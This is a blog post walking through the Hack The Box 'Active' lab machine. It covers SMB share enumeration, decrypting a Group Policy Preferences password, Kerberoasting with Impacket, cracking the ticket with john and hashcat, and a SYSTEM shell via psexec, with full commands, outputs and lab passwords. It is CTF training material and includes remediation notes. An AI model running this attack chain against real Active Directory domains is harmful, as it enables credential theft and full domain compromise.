 ```yaml
---
layout: post
title:  "HTB: Active"
date:   2023-10-04 09:19:20 +0700
tags: [htb,pentesting,ctf]
categories: jekyll update
usemathjax: true
---
```


> ## **Overview**

Active was an example of an easy box that still provided a lot of opportunity to learn. The box was centered around common vulnerabilities associated with Active Directory. There’s a good chance to practice SMB enumeration. It also gives the opportunity to use Kerberoasting against a Windows Domain, which, if you’re not a pentester, you may not have had the chance to do before.

> ## **Enumeration**

### **Port Scan Results**

| IP Address | Ports Open |
| --- | --- |
| 10.10.10.100 | TCP: 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5722, 9389
|              | UDP: 123, 137 

### **SMB Enumeration - I**

Since this is a Windows host, Enumerating any readable shares can be really useful.

```bash
smbmap -H 10.10.10.100
```

![https://media.discordapp.net/attachments/928373179003600907/1159031050228486154/image.png?ex=651e6748&is=651d15c8&hm=e38254578ebddf83f9564d8a9fd5148a741779776cdbf1cf6dc26490db89aa34&=&width=1144&height=388](https://media.discordapp.net/attachments/928373179003600907/1159031050228486154/image.png?ex=651e6748&is=651d15c8&hm=e38254578ebddf83f9564d8a9fd5148a741779776cdbf1cf6dc26490db89aa34&=&width=1144&height=388)

And we see that we can only access the share *Replication.*

Connecting to the share using **smbclient**

```bash
smbclient //10.10.10.100/Replication
```

![https://media.discordapp.net/attachments/928373179003600907/1159031577737703484/image.png?ex=651e67c5&is=651d1645&hm=c0cd941f3f2ebe0097a0f255d86bf23717c79ba5ca3a814b1b475b22fccee6d5&=&width=1143&height=199](https://media.discordapp.net/attachments/928373179003600907/1159031577737703484/image.png?ex=651e67c5&is=651d1645&hm=c0cd941f3f2ebe0097a0f255d86bf23717c79ba5ca3a814b1b475b22fccee6d5&=&width=1143&height=199)

Once we gain access to the share, we can locate a file named Groups.xml within the directory path 

```bash
**\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\**
```

Upon examining this file, we will discover both a username and an encrypted password.

![https://media.discordapp.net/attachments/928373179003600907/1159035007248126012/4.png?ex=651e6af7&is=651d1977&hm=f5d23c8d8aa4d0c46df8361defd46598f4430774427415844bcc08b3896eb970&=&width=1260&height=150](https://media.discordapp.net/attachments/928373179003600907/1159035007248126012/4.png?ex=651e6af7&is=651d1977&hm=f5d23c8d8aa4d0c46df8361defd46598f4430774427415844bcc08b3896eb970&=&width=1260&height=150)

```bash
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

### **GPP Passwords**

Whenever a new Group Policy Preference (GPP) is created, there’s an 
xml file created in the SYSVOL share with that config data, including 
any passwords associated with the GPP. For security, Microsoft AES 
encrypts the password before it’s stored as cpassword. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!

Microsoft issued a patch in 2014 that prevented admins from putting 
passwords into GPP. For more 
details, check out this [AD Security post](https://adsecurity.org/?p=2288).

**Decrypting GPP** 

a tool called "gpp-decrypt" that can be utilized for decrypting GPP (Group Policy Preferences) passwords.

![https://media.discordapp.net/attachments/928373179003600907/1159047076789887016/5.png?ex=651e7635&is=651d24b5&hm=044300dbdde47c3cea475a83a299c7ef7f9e9649141413bcf3a7831549248552&=&width=1836&height=114](https://media.discordapp.net/attachments/928373179003600907/1159047076789887016/5.png?ex=651e7635&is=651d24b5&hm=044300dbdde47c3cea475a83a299c7ef7f9e9649141413bcf3a7831549248552&=&width=1836&height=114)

```bash
root@kali# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

And we got the password **GPPstillStandingStrong2k18**.

### **SMB Enumeration - II**

With a username and password, I can access 3 more shares

There is a Users share that looks interesting

```bash
root@kali# smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.100...
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        IPC$                                                    NO ACCESS
        NETLOGON                                                READ ONLY
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY
        Users                                                   READ ON
```

Connecting to the SMB share using **smbclient**

```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

And that is enough to get user.txt

> ## Initial Access – Kerberoasting

**Vulnerability Explanation:** Kerberoasting is a technique that allows an attacker to steal the KRB_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password.

**Vulnerability Fix:** [Consider using Group Managed Service Accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) rather than service accounts with static passwords . [Consider upgrading to an Active Directory Domain or forest level](https://adsecurity.org/?p=3377) which supports advanced Kerberos armoring. More information [here](https://www.lepide.com/blog/how-to-prevent-kerberoasting-attacks/)

**Severity: [High](https://capec.mitre.org/data/definitions/509.html)**

**Steps to reproduce the attack:** Since we already possess credentials, we'll use the "GetUserSPNs.py" script from Impacket. This script will enable us to retrieve a list of service usernames linked to regular user accounts and obtain a ticket that I can attempt to crack.

**Proof of Concept**


```bash
root@kali# GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

It also gives me the ticket, which I can try to brute force decrypt to get the user’s password:

**Cracking the ticket**

With John

```bash
./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

If youre facing errors, make sure you use the [jumbo version of john](https://github.com/magnumripper/JohnTheRipper).

With Hashcat

```bash
$ hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

And we got the administrator password : **Ticketmaster1968**

> ## Administrator Access

As we already have admin creds through kerberoasting, we can get the system shell using psexec.py

```bash
root@kali# psexec.py active.htb/administrator@10.10.10.100
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file dMCaaHzA.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service aYMa on 10.10.10.100.....
[*] Starting service aYMa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

![https://cdn.discordapp.com/attachments/928373179003600907/1159058806349778944/image.png?ex=651e8121&is=651d2fa1&hm=3691f9cc6292a3dea0c27e2a66526177f7fd1aad6c00315717d310d7ed537fdc&](https://cdn.discordapp.com/attachments/928373179003600907/1159058806349778944/image.png?ex=651e8121&is=651d2fa1&hm=3691f9cc6292a3dea0c27e2a66526177f7fd1aad6c00315717d310d7ed537fdc&)

**Key Takeaways**